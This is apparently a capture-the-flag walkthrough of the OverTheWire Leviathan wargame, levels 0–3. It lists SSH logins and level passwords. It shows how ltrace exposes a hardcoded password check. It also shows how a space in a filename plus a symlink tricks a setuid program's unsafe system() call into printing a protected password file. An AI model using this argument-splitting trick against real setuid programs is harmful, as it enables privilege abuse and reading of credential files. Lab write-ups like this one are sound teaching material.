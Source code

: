 +++
author = "Khaled Ngm"
title = "Leviathan walkthrough"
date = "2022-07-04"
description = ""
+++
# OverTheWire: Leviathan Walkthrough
We will discuss Leviathan game walkthrough ,This wargame doesn't require any knowledge about programming - just a bit of common
sense and some knowledge about basic *nix commands .
* ssh connection
* level0
* level1
* level2
* level3
* level4
* level5
* level6
* level7
## ssh connection ``ssh user@host -p port``
  * first we have to establish ssh connection using ``ssh leviathan0@leviathan.labs.overthewire.org -p 2223`` and password ``leviathan0``
## level0
  * then let's use ``ls -la`` command to list files and directories.

  ![List Directories](/images/131196663-0b273faf-2a2a-45a9-95d1-3474616d3c7a.png)
  
  * If we changed direcory to ``.backup`` directory we will find `bookmarks.html` text file .
  * Let's ``grep`` to get any interesting data about next level `leviathan1` .

    ``cat bookmarks.html | grep leviathan1``
  * So we got the password of the next level .
## level1
  * ``ssh leviathan1@leviathan.labs.overthewire.org -p 2223`` and password ``rioGegei8m``
  *   we found elf executable file called `check`, let's execute it .

      ![need pass](/images/131198175-3d06a1ce-52d1-4f57-9d17-dde7da578114.png)

  * As we see it needs a password , so let's use ``ltrace ./check`` command with a wrong password .

     ![compare](/images/131198440-93937c11-d39e-464e-b966-049d57452b74.png)
  * We realize that it compare the password with ``sex`` word , so we can enter password to reed leviathan2 pass from ``/etc/leviathan_pass/leviathan2``.
## level2
  *  ``ssh leviathan2@leviathan.labs.overthewire.org -p 2223`` and password ``ougahZi8Ta``
  *  We found printfile , so let's create temp file to print it's content 
  ```
   leviathan2@leviathan:~$ mkdir /tmp/print
   leviathan2@leviathan:~$ echo hello > /tmp/print/print.txt
  ```
  * Next step we will use ``ltrace ./printfile /tmp/print/print.txt`` command .
   ```
   __libc_start_main(0x804852b, 2, 0xffffd774, 0x8048610 <unfinished ...>
   access("/tmp/print/print.txt", 4)                                                                                 = 0
   snprintf("/bin/cat /tmp/print/print.txt", 511, "/bin/cat %s", "/tmp/print/print.txt")                             = 29
   geteuid()                                                                                                         = 12002
   geteuid()                                                                                                         = 12002
   setreuid(12002, 12002)                                                                                            = 0
   system("/bin/cat /tmp/print/print.txt"hello
    <no return ...>
   --- SIGCHLD (Child exited) ---
   <... system resumed> )                                                                                            = 0
   +++ exited (status 0) +++
   ``` 
  * We can see ``access`` function that call file path , we need to call leviathan3 file but we have no permission.
  * If we created a file with space snprintf will read it as two files .
   ```
    __libc_start_main(0x804852b, 2, 0xffffd764, 0x8048610 <unfinished ...>
    access("/tmp/print/print hello.txt", 4)                                                                           = 0
    snprintf("/bin/cat /tmp/print/print hello."..., 511, "/bin/cat %s", "/tmp/print/print hello.txt")                 = 35
    geteuid()                                                                                                         = 12002
    geteuid()                                                                                                         = 12002
    setreuid(12002, 12002)                                                                                            = 0   
    system("/bin/cat /tmp/print/print hello.".../bin/cat: /tmp/print/print: No such file or directory
    /bin/cat: hello.txt: No such file or directory
    <no return ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                                                            = 256
    +++ exited (status 0) +++
   ```
   * As we can see file name devided into two parts (print and hello.txt) , let's make a symbolic link to the first part .
   
   ``ln -s /etc/leviathan_pass/leviathan3  /tmp/print/print``
   * Finally we can read file and get password of next level .
## level3
   *  ``ssh leviathan3@leviathan.labs.overthewire.org -p 2223`` and password ``Ahdiemoo1j``
 